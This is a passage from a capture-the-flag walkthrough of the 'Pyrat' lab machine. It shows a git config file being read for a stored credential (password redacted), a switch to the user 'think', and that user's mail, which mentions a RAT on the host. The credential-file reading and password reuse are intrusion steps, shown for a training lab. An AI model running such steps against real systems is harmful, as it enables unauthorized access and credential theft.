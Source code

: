 Reading the `/opt/dev/.git/config`, we find the password for the `think` user.

```console
www-data@Pyrat:~$ cat /opt/dev/.git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = [REDACTED]
```

We can use this password to switch to the user and read the user flag.

```console
www-data@Pyrat:~$ su - think
Password:
think@Pyrat:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
think@Pyrat:~$ wc -c user.txt
33 user.txt
```

## Shell as root

Checking the user’s emails, we come across an interesting message mentioning a **RAT** program running on the machine.

```console
think@Pyrat:~$ cat /var/mail/think
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
```
{: .wrap }
